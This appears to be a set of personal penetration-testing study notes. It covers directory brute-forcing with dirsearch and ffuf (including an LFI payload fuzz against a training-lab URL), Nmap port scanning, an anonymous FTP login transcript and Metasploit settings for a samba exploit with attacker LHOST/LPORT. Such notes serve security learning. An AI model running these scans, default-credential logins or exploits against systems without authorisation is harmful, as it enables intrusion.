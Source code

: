 •	Directory brute force is used to find hidden and often forgotten directories on a site to try to compromise. Some various automated tools and scripts retrieve the status of the directory which is brute forced from custom wordlists.
•	dirsearch - Web path discovery
o	python3 dirsearch.py -u <Target IP or URL>
•	ffuf - Fuzz Faster U Fool 
o	ffuf - Fast web fuzzer written in Go
o	ffuf -w lfi-payload.txt -u https://0a4c003c0455c109c0b78cec00a200ef.web-security-academy.net/image?filename=FUZZ -mc 200


•	Nmap ("Network Mapper") is used to discover hosts and services on a computer network by sending packets and analyzing the responses. Nmap provides a number of features for probing computer networks, including host discovery and service and operating system detection.
o	nmap -p <port or port range (1-100)> <target IP>, used to scan ports.
o	nmap -p- -A <target ip>, used to scan for all ports
o	Whenever you found open port that means you can get access through it.
o	If you see (ftp-anon: Anonymous FTP login allowed (FTP code 230)) go their ftp service and enter
	Username: anonymous
	Password: anonymous
o	ftp 192.168.1.36
Connected to 192.168.1.36
.
220-
220-|------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|------------------------------------------------------------|
220-
220 
Name (192.168.1.36:kali): anonymous
331 Please specify the password.
Password: anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
•	PORTS: You Can Hack
o	ftp
o	ssh
•	msfconsole is metasploit v6.2.15-dev
o	search samba
o	use 14 or exploit/linux/samba/is_known_pipename 
o	set RHOSTS 192.168.1.36
o	set RPORT 139
o	RHOSTS  Target’s IP
o	LHOSTS  Attacker’s IP(Our IP)
o	RPORT  139
o	LPORT  any available pors in ur OS (4444/1337)
o	mysql
•	wafw00f is used to detect web application firewall.
o	wafw00f <url>
